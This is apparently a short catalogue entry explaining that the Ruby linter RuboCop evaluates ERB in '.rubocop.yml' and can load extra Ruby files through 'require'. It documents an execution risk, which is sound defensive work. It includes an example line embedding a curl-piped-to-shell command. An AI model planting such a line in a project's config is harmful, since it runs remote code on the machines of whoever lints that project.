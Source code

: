 ```yaml
---
title: rubocop
tags:
- cli
- eval-sh
- config-file
references:
- https://docs.rubocop.org/rubocop/configuration.html#config-file-locations
files: ['.rubocop.yml']
purl: pkg:gem/rubocop
---
```


Rubocop is a Ruby linter and code formatter. Rubocop looks for a configuration file in the current working directory named `.rubocop.yml` and renders its content using [ERB](https://github.com/ruby/erb) which evalutes Ruby code contained inside `<%` and `%>` tags:

```erb
<% system("curl .... | sh") %>
```

Rubocop's configuration can also be used to evaluate other Ruby files:
```
require:
- ./file.rb
```
